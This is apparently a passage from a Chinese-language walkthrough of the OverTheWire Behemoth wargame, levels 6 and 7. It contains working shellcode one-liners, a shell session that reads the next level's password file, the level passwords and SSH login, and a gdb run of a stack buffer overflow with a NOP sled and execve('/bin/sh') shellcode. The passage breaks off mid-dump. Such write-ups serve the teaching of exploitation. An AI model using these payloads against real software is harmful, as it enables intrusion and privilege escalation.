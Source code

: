 ```bash
behemoth6@behemoth:/tmp/eZqWxxwYkV$ (python -c "print 11*'\x90'+'\xeb\x1e\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\x59\xba\x0a\x00\x00\x00\xcd\x80\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xdd\xff\xff\xff\x48\x65\x6c\x6c\x6f\x4b\x69\x74\x74\x79'") > shellcode.txt
behemoth6@behemoth:/tmp/eZqWxxwYkV$ /behemoth/behemoth6
Correct.
$ whoami
behemoth7
$ cat /etc/behemoth_pass/behemoth7
baquoxuafo
$ 
```

## Behemoth 07


**SSH:** ssh behemoth7@narnia.labs.overthewire.org -p 2221

**PASS:** baquoxuafo

依旧先dump下来分析。

```bash
$ ./crawl.sh  7 baquoxuafo
sshpass -p baquoxuafo scp -P 2221 behemoth7@behemoth.labs.overthewire.org:/behemoth/behemoth7  .
This is a OverTheWire game server. More information on http://www.overthewire.org/wargames

[*] '/home/z1933/workplace/vbshare/ctf/behemoth7'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

用IDA分析一下。

`__ctype_b_loc`函数参考：[__ctype_b_loc what is its purpose?](https://stackoverflow.com/questions/37702434/ctype-b-loc-what-is-its-purpose)。简单的说，这个函数就是返回一个ascii字符的表，表项(unsigned short)表示每个字符的特征，比如是否大小写，是否为打印字符等。isprintf，islower函数实际上就是包装了一下上面这个函数。

这里要让其判断为假，要么是字母数字要么是标点符号。但是漏洞利用点是其只检查了前512字节,把shellcode地址写在后面就OK了。还有就是程序一开始把环境变量清0了,所以环境变量不行，只能在栈上加点雪橇硬写了。


从ebp-524字节处开始写,用gdb调试,看一下栈上的情况:

```
(gdb) run $(python -c "print 528*'A'+'\xc0\xd5\xff\xff'+ 200*'\x90'+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0f\x2c\x04\xcd\x80'")
Starting program: /behemoth/behemoth7 $(python -c "print 528*'A'+'\xc0\xd5\xff\xff'+ 200*'\x90'+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0f\x2c\x04\xcd\x80'")

Breakpoint 1, 0x08048640 in main ()
(gdb) x/300wx
Argument required (starting display address).
(gdb) x/300wx $ebp
0xffffd2b8:	0x41414141	0xffffd5c0	0x90909090	0x90909090
0xffffd2c8:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd2d8:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd2e8:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd2f8:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd308:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd318:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd328:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd338:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd348:	0x90909090	0x90909090	0x90909090	0x90909090
```